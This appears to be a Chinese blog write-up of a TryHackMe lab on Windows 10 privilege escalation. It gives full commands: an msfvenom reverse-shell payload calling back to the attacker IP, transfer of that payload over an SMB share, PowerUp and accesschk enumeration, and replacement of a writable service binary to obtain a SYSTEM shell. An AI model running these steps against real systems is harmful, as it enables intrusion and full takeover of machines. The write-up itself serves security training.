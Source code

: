 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/kKtncDzIglpp0dmyAErwww)

点击上方蓝字关注我们

**0x00: 在线漏洞平台利用**  

=====================

本次的在线漏洞平台是 Try hack me 具体链接为 https://tryhackme.com/room/windows10privesc。可以使用平台所提供的网页 kali 版，或者是用自己 kali 连到他们内网里面都可。

攻击机: kali ip 10.4.37.12

目标机器:windows10 ip 10.10.143.152

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9Sw258Xgz6nktZicboFLpaicGDSlOKOiaicIxLQFWNmg7bBoLl2rIrVojIc6tiaJiaicML1fpq4RuzWPNEAw/640?wx_fmt=png)

首先使用 xfreerdp 进行远程连接

命令: xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.143.152

**0x01: 制作反弹 shell + 传送到目标机器**
==============================

为了控制一波我们的 windows10, 我们得先在 kali 本地制作一个反弹 shell 先。

命令:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.4.37.12 LPORT=667 -f exe -o reverseshell.exe

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9Sw258Xgz6nktZicboFLpaicGtQ7gsYicyExakrLJS2gP1ibZJOiafTibRQINcONomTuEYPtuOQBuibEEckw/640?wx_fmt=png)

1

  

  

  

  

  

  

关于传送的到目标机器可以用 kali 自带的 smbserver

命令: sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9Sw258Xgz6nktZicboFLpaicG65lackh1avialqFq2lqwvEEpyfgCkOpia4mkia9pPnOojKia8uC3ncozkA/640?wx_fmt=png)

1

  

  

  

  

  

  

然后在我们的 windows10 的 CMD 命令行模式下输入

命令:copy \\10.4.37.12\kali\revershell.exe C:\PrivEsc\reverseshell.exe

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9Sw258Xgz6nktZicboFLpaicGflRb1njlqme4gv4OOdtez9z0xsfZrKg9EhEgacshiau4YCpa8qLW2dw/640?wx_fmt=png)

1

  

  

  

  

  

  

然后去到我们刚才存放的地方，记得提前在 kali 处打开波端口。一个点击就能获得了。

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9Sw258Xgz6nktZicboFLpaicG3O9K9f7A4SviaXLY2OSlhiaR7Nx8cAuWgH1mCfLiaeRU8mwV8DyTYh6sA/640?wx_fmt=png)

**0x03: 查找特别的服务**
=================

本次会用到两个工具 PowerUp.ps1 和另外一个 accesschk.exe

PowerUp:https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

Accesschk.exe: https://docs.microsoft.com/zh-cn/sysinternals/downloads/accesschk

Accesschk 说明书也在同一页

1

  

  

  

  

  

  

由于该靶机已经提前帮我们准备好这两个文件了，如果是在实战中可以用上面的方法传输文件。这里先使用 PowerUp.ps1

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9Sw258Xgz6nktZicboFLpaicGwv46IlKWg4xIcK4VSWg7LiaWmYLoGXHiabq86JZpMLVLzRr66or9I4kQ/640?wx_fmt=png)

1

  

  

  

  

  

  

先进入 powershell 模式，然后用.  .\PowerUp.ps1 加载，最后用 Invoke-AllChecks 启动检测

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9Sw258Xgz6nktZicboFLpaicGEGopF3ia7w2JcXlVblbCxnxGIOib6IOcuRZU5ya50JYYMPqGraNjHiaxA/640?wx_fmt=png)

1

  

  

  

  

  

  

可以找到一个特别的服务叫 filepermsvc，同时 startName 时 LocalSystem 具有更高的权限，我们的目标就是利用它。

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9Sw258Xgz6nktZicboFLpaicGyicFFoiaibZGuNZzNyDsvLcticpgYUWI80dia8623ia28qADoKr6dHHKoQpA/640?wx_fmt=png)

1

  

  

  

  

  

  

当然在利用前建议使用 accesschk.exe 看看目前用户是否具有执行权，否则就很尴尬了。这里可以看到目前用户 user 具有 RW 权限即可读可写可更改

命令:accesschk.exe /accepteula(自动接收许可协议，记得一定加上去，否则想想会自动弹出一个是否接收许可协议，就很尴尬了)

-q= 忽略 banner

-u= 忽略错误

-v = 详细信息

-w= 只显示拥有可写权的对象

后面的路径时根据 PowerUp.ps1 所提供的

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9Sw258Xgz6nktZicboFLpaicGmjZbGia7TCsnqrsqHsfvIIJ6YNdnRLicyEh1CElPKSqxyVH4K5UaJibvA/640?wx_fmt=png)

1

  

  

  

  

  

  

那我们的机会就来了，可以把前面的反弹 shell, 复制到服务的.exe 里面去，顺便把它改名为 filepermservice.exe 然后重新启动该服务，因为具有更高的权限，理论上来讲是会反弹一个更高权限的 shell

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9Sw258Xgz6nktZicboFLpaicGFlVkpak6HBzVP7hpG3N1p2D3ICVqrrG3oiajqEw3AaicbM343dmTeN1A/640?wx_fmt=png)

1

  

  

  

  

  

  

这里由于是靶机我直接在 CMD 下执行 net start 重启命令，然后提前开启 nc 成功接收到一个更高权限的 shell。

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9Sw258Xgz6nktZicboFLpaicGn6DRGpoqAYdBDwxlpERLFvcLhaN8QLgVBVtgpvCr2CEKiaXRc3CjJnQ/640?wx_fmt=png)